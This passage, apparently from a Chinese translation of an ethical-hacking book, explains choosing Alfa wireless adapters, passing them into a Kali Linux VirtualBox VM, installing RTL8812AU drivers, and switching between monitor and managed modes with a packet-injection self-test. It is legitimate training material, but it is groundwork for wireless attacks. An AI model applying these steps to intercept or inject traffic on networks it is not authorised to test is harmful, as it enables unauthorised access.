作为一名有抱负的道德黑客和渗透测试员，你可能被指派执行无线渗透测试技术，针对目标网络进行测试，目的是识别任何安全漏洞，并评估攻击面，以更好地理解对手如何可能攻破组织的无线网络并获得未授权访问。虽然许多道德黑客和渗透测试员更倾向于直接将 Kali Linux 安装到笔记本电脑的本地存储驱动器上，以提高机动性并直接访问硬件资源，但这种部署模型并不总是最佳选择。例如，笔记本电脑中的无线网络适配器的芯片组可能不支持监控模式和数据包注入。

+   因此，建议购买一套支持以下功能的外部无线网络适配器：

    IEEE 802.11 标准，如 802.11a/b/g/n/ac。

+   在 2.4 GHz 和 5 GHz 频段上工作。

+   支持监控模式，以识别无线客户端和接入点。

+   支持数据包注入，用于执行无线渗透测试。

虽然在流行的电子商务网站上有许多无线网络适配器，但以下是两款渗透测试员在行业中常用的无线网络适配器：

+   Alfa AWUS036NHA - 无线 B/G/N USB 适配器（仅支持 2.4 GHz）

+   Alfa AWUS036ACH 长距离双频 AC1200 无线 USB 适配器（支持 2.4 GHz 和 5 GHz）

> 请记住，还有其他厂商制造支持监控模式和数据包注入的无线网络适配器。然而，你需要做进一步的研究和比较，以确定哪款无线网络适配器最适合你，具体依据它的可用性、成本、功能、外形和与系统以及 Kali Linux 的兼容性。

以下是 Alfa AWUS036NHA 无线网络适配器的图片：


如上图所示，Alfa 适配器配备了可拆卸天线，渗透测试员可以连接更强大的天线，从而在更远的距离捕获无线帧。以下是 Alfa AWUS036ACH 无线适配器的图片：


如前图所示，Alfa AWUS036ACH 型号同样支持可拆卸天线，类似于 Alfa AWUS036NHA 型号。使用支持 2.4 GHz 频段的无线网络适配器对于执行无线渗透测试仅对只在 2.4 GHz 频段运行的无线网络和接入点有效，而对 5 GHz 频段的网络无效。作为渗透测试人员，始终为每种类型的渗透测试做好准备非常重要，比如确保您拥有合适的软件和硬件工具。想象一下，您到达客户地点准备进行无线渗透测试，将无线网络适配器连接到 Kali Linux 时，却无法检测到目标无线网络。虽然无法检测到无线网络有很多原因，但其中一个具体原因是目标无线网络在 5 GHz 频段上运行，而您的无线网络适配器仅支持 2.4 GHz。因此，在开始任何技术工作之前，正确规划每次渗透测试至关重要。在接下来的几个子部分中，您将学习如何将 Alfa AWUS036NHA 和 AWUS036ACH 无线适配器连接到 Kali Linux 虚拟机。

### 连接无线适配器到 Kali Linux

在本节中，您将学习如何将像 Alfa AWUS036NHA 适配器这样的 USB 无线网络适配器正确地连接到 Kali Linux 上的 Oracle VM VirtualBox。在这个练习中，我将使用 Alfa AWUS036NHA 无线适配器，因为它在 Kali Linux 上不需要额外的驱动程序。开始此练习前，请按照以下说明操作：

1.  首先，通过一个可用的 USB 端口将 Alfa AWUS036NHA 无线适配器连接到您的主机系统。我不建议将无线网络适配器连接到 USB 集线器上，建议直接将无线适配器连接到主板或笔记本电脑上的 USB 端口。

1.  接下来，打开 **Oracle VM VirtualBox 管理器**，选择 **Kali Linux** 虚拟机并点击 **设置**，如下所示：



1.  在 **设置** 菜单中，选择 **USB** 类别，并确保 **USB 控制器** 模式设置为 USB 2.0 或 USB 3.0，具体取决于主机计算机上物理 USB 端口的类型。然后，点击 **USB+** 图标以选择无线网络适配器，如下所示：


1.  接下来，USB 设备菜单将显示主机计算机上所有连接的 USB 设备，包括连接的 Alfa AWUS036NHA 无线适配器。只需选择 Alfa AWUS036NHA 无线适配器，将其插入到 USB 设备列表中，如下所示：


如前所示，无线网络适配器被标记为 ATHEROS UB91C。设备识别可能会根据无线适配器的芯片组和操作系统有所不同。下图显示无线适配器在 USB 设备过滤器列表中可用，并已被选中：


1.  接下来，在 **设置** 窗口中，点击 **确定** 保存配置。

1.  接下来，启动 **Kali Linux** 虚拟机并登录桌面。

1.  接下来，无线网络适配器可能没有被 Kali Linux 逻辑上连接，因此，右键点击位于 Kali Linux 虚拟机右下角状态栏中的 USB 图标，如下所示：


在你右键点击 USB 图标后，会显示一个可用 USB 设备的列表。只需点击无线网络适配器即可将其附加到虚拟机上。

1.  在 **Kali Linux** 上，打开 **终端**，使用 `ifconfig` 命令验证无线网络适配器是否已连接，如下所示：


如前所示，Kali Linux 能够检测到物理无线网络适配器，并将其接口标记为 `wlan0`，无需额外的软件驱动程序。在基于 Linux 的操作系统中，物理以太网适配器被标记为 `eth` 接口，而无线适配器则标记为 `wlan` 接口。接口名称后面的数字表示 **接口标识符** (**ID**)，第一个接口通常以 `0` 开头，如 `eth0` 和 `wlan0`。

1.  接下来，使用 `iwconfig` 命令查看无线适配器的具体详情，如下所示：


1.  如前所示，`iwconfig` 命令使我们能够查看无线网络适配器的当前操作系统模式。在这里，你可以查看操作系统模式、发射功率等级 (**Tx-Power**)，并确定无线适配器是否已连接到附近的接入点或无线路由器。

完成本次练习后，你已经学会了如何成功地将无线网络适配器连接到 Kali Linux 系统。此外，你还学习了 Alfa AWUS036NHA 无线网络适配器如何作为即插即用设备无缝工作。接下来，你将学习如何连接具有 RTL8812AU 芯片组的无线网络适配器，如 Alfa AWUS036ACH 无线适配器。

### 连接带有 RTL8812AU 芯片组的无线适配器

各种无线网络适配器都采用 RTL8812AU 芯片组，并且在连接时 Kali Linux 不会自动识别它。在本节中，你将学习如何成功地设置并连接一个具有 RTL8812AU 芯片组的无线网络适配器，例如 Alfa AWUS036ACH 无线适配器。要开始这个练习，请按照以下指示操作：

1.  首先，将 Alfa AWUS036ACH 无线网络适配器连接到你的主机系统。

1.  打开**Oracle VirtualBox 管理器**，选择**Kali Linux**虚拟机并点击**设置**。

1.  一旦**设置**菜单出现，点击**USB**类别，并确保 USB 控制器模式设置为 USB 2.0 或 3.0，这取决于主机计算机支持的物理 USB 端口类型。然后，点击**USB+**图标打开弹出菜单，显示所有连接的 USB 设备，如下所示：


1.  接下来，在 USB 设备弹出菜单中选择标记为**Realtek 802.11n NIC**的无线网络适配器，如下所示：


> 设备的识别可能会因无线适配器的芯片组和操作系统的不同而有所不同。

以下截图显示无线适配器在**USB 设备过滤器**列表中可用，并已选中：


1.  接下来，在**设置**窗口中，点击**确定**以保存配置。

1.  接下来，启动**Kali Linux**虚拟机并登录到桌面。

1.  接下来，无线网络适配器可能没有逻辑上连接到 Kali Linux，因此右击 Kali Linux 虚拟机状态栏右下角的 USB 图标，选择新连接的无线网络适配器，如下所示：


如前所示截图，Alfa AWUS036ACH 被识别为 Realtek 802.11n NIC 设备。

1.  接下来，在 Kali Linux 中打开**终端**，使用`lsusb`命令验证附加的无线适配器的芯片组，如下所示：


如前所示截图，Alfa AWUS036ACH 无线适配器使用 RTL8812AU 芯片组。然而，在使用`iwconfig`命令时，Kali Linux 无法检测到无线适配器，如下所示：


1.  接下来，使用以下命令更新 Kali Linux 上的软件包源列表文件：

```
kali@kali:~$ sudo apt update
```

1.  接下来，使用以下命令在 Kali Linux 上通过动态内核模块支持（DKMS）安装适用于 RTL88XXAU 芯片组的 Realtek 驱动程序：

```
kali@kali:~$ sudo apt install realtek-rtl88xxau-dkms
```

1.  接下来，使用以下命令从 Aircrack-ng GitHub 仓库下载、编译并安装最新的 RTL8812AU 驱动程序：

```
kali@kali:~$ git clone https://github.com/aircrack-ng/rtl8812au
kali@kali:~$ cd rtl8812au
kali@kali:~/rtl8812au$ sudo make
kali@kali:~/rtl8812au$ sudo make install
```

1.  接下来，重启 Kali Linux 以确保新安装的驱动程序生效。

1.  重启 Kali Linux 后，打开终端，使用 iwconfig 命令验证 Alfa AWUS036ACH 无线网络适配器是否在 Kali Linux 上被识别，如下所示：


如前所示，无线网络适配器现在已连接到 Kali Linux，这使我们能够在 2.4 GHz 和 5 GHz 无线频率上执行各种类型的基于无线的攻击。本书后续将介绍无线渗透测试。完成本节后，您将学习如何通过 Oracle VirtualBox 将本地支持的无线网络适配器连接到 Kali Linux。此外，您还将学习如何安装支持带有 RTL8812AU 芯片组的无线网络适配器的必要驱动程序。在下一节中，您将学习无线网络适配器的各种操作模式以及如何利用它们进行无线渗透测试。

## 管理和监控无线模式

作为道德黑客和渗透测试人员，了解无线网络适配器的各种操作模式非常重要。让我们来看看无线网络适配器的每种操作模式：

+   管理模式（Managed）– 这是所有无线网络适配器的默认操作模式。此模式使主机设备（如计算机）能够连接到附近的接入点或无线路由器。然而，此模式并不允许道德黑客和渗透测试人员对目标无线网络执行任何类型的无线渗透测试技术。

+   监控模式（Monitor）– 此操作模式使道德黑客和渗透测试人员能够扫描周围的 IEEE 802.11 无线网络，捕获来自接入点的无线帧（如信标）和来自无线客户端的探针，并使您能够对目标无线网络执行数据包注入攻击。

+   主机模式（Master）– 此模式使基于 Linux 的操作系统能够充当接入点或无线路由器。

+   临时模式（Ad hoc）– 临时模式使主机系统能够直接连接到另一个主机，而无需像接入点或无线路由器这样的中介设备。

+   中继器模式（Repeater）– 该模式允许主机设备简单地捕获无线信号，并将其重播到其他客户端，以扩展无线网络的范围。请记住，中继器通常用于在远距离范围内扩展无线信号覆盖。

+   次级模式（Secondary）– 此模式使主机作为主设备或中继系统的备份设备运行。

现在，您已经了解了无线网络适配器的各种操作模式，让我们更深入地探讨如何配置监控模式，并确定无线网络适配器是否支持数据包注入。

### 配置监控模式

在本节中，您将学习如何使用 Kali Linux 中的本地工具将无线网络适配器配置为工作在监控模式下。对于本练习，我们将使用 Alfa AWUS036NHA 无线网络适配器。开始此练习时，请按照以下说明操作：

1.  确保 Alfa AWUS036NHA 无线网卡已连接到主机，并通过 **Oracle VM VirtualBox Manager** 连接到 **Kali Linux** 虚拟机。

1.  启动 **Kali Linux** 虚拟机。打开 **终端** 并使用 `iwconfig` 命令验证 Kali Linux 是否检测到无线网卡，如下所示：


如前面的截图所示，无线网卡被标识为 `wlan0` 并且以 **Managed** 模式运行。

1.  接下来，逻辑上关闭 wlan0 接口，使用以下命令：

```
kali@kali:~$ sudo ifconfig wlan0 down
```

> 执行上述命令后，使用 `ifconfig` 命令验证输出中是否不再显示 `wlan0`。如果 `wlan0` 接口仍然存在，请再次执行 `sudo ifconfig wlan0 down` 命令。

1.  接下来，使用以下命令将 `wlan0` 的操作模式更改为 **Monitor**：

```
kali@kali:~$ sudo iwconfig wlan0 mode monitor
```

上述命令将自动重新启用 `wlan0` 接口。

1.  接下来，使用 `iwconfig` 命令验证 `wlan0` 接口是否配置为 **Monitor** 模式，如下所示：


1.  要测试附加的无线网卡是否支持数据包注入，请使用以下命令：

```
kali@kali:~$ sudo aireplay-ng -9 wlan0
```

Aireplay-ng 是 Aircrack-ng 无线安全工具套件的一部分，用于无线渗透测试。使用 `-9` 语法可在监视模式下测试数据包注入接口/适配器，如下所示：


> 要执行数据包注入，无线网卡接口必须处于监视模式。

1.  最后，要将接口恢复为管理模式，请使用以下命令：

```
kali@kali:~$ sudo ifconfig wlan0 down
kali@kali:~$ sudo iwconfig wlan0 mode managed
kali@kali:~$ sudo ifconfig wlan0 up
```

下面的截图验证了无线网卡已成功恢复为 Managed 模式：


完成此练习后，您将学会如何在 Kali Linux 中使用本地工具启用无线网卡的监视模式，并测试是否支持数据包注入。接下来，您将学习如何通过在 Kali Linux 上使用 Aircrack-ng 自动化此过程。

### 使用 Aircrack-ng 启用监视模式

在本节中，您将学习如何使用 Aircrack-ng，这是一套常用于伦理黑客和渗透测试人员的无线安全工具套件，用于启用无线网卡的监视模式。在此练习中，我们将使用 Alfa AWUS036NHA 无线网卡。要开始此练习，请按以下说明操作：

1.  确保 Alfa AWUS036NHA 无线网卡已连接到主机计算机，并通过 **Oracle VM VirtualBox Manager** 连接到 **Kali Linux** 虚拟机。

1.  接下来，启动 **Kali Linux** 虚拟机并登录。

1.  接下来，在 **Kali Linux** 中打开 **终端** 并使用 `iwconfig` 命令验证是否检测到 Alfa AWUS036NHA 无线网卡，如下所示：


1.  接下来，使用以下命令识别并终止可能妨碍无线网卡以监控模式运行的后台进程：

```
kali@kali:~$ sudo airmon-ng check kill
```

以下截图显示了 Airmon-ng 发现潜在的冲突进程并终止了它：


1.  接下来，通过以下命令在`wlan0`接口上启用监控模式：

```
kali@kali:~$ sudo airmon-ng start wlan0
```

以下截图显示创建了一个新的逻辑接口`wlan0mon`作为监控接口：


1.  使用`iwconfig`命令验证新创建的监控接口的运行状态，如下所示：


1.  接下来，使用 Aircrack-ng 测试`wlan0mon`是否支持数据包注入，使用以下命令：

```
kali@kali:~$ sudo aireplay-ng -9 wlan0mon
```

以下截图显示 Aireplay-ng 成功验证了接口支持数据包注入：


1.  最后，要将无线接口从监控模式切换回管理模式，请使用以下命令：

```
kali@kali:~$ sudo airmon-ng stop wlan0mon
```

以下截图显示 Airmon-ng 禁用了该接口的监控模式：


1.  最后，使用`iwconfig`命令验证无线接口是否在管理模式下运行，如下所示：


完成本节内容后，你已经学会了如何在 Kali Linux 中使用本地工具和自动化工具配置无线网卡以在监控模式下运行。此外，你还学会了如何测试无线网卡是否支持数据包注入。

## 总结

完成本章内容后，你已经了解了网络渗透测试的重要性，以及它如何帮助组织提高网络防御能力和制定防止未来网络攻击和威胁的策略。此外，你还学会了如何在不同系统之间设置和使用绑定和反向 Shell 进行网络操作。更进一步，你已经掌握了如何为执行无线渗透测试配置无线网卡，并将在后续章节深入学习。相信本章所提供的知识将为你提供宝贵的洞见，助你在成为一名道德黑客和渗透测试员的道路上稳步前行。愿这份新获得的理解，赋予你在网络安全领域中游刃有余的能力，信心满满地走向未来。下一章《执行网络渗透测试》中，你将学习如何执行网络渗透测试，以识别目标系统和网络的安全漏洞。

## 进一步阅读

+   要了解 Aircrack-ng，请访问：[`www.aircrack-ng.org/doku.php?id=Main`](https://www.aircrack-ng.org/doku.php?id=Main)。
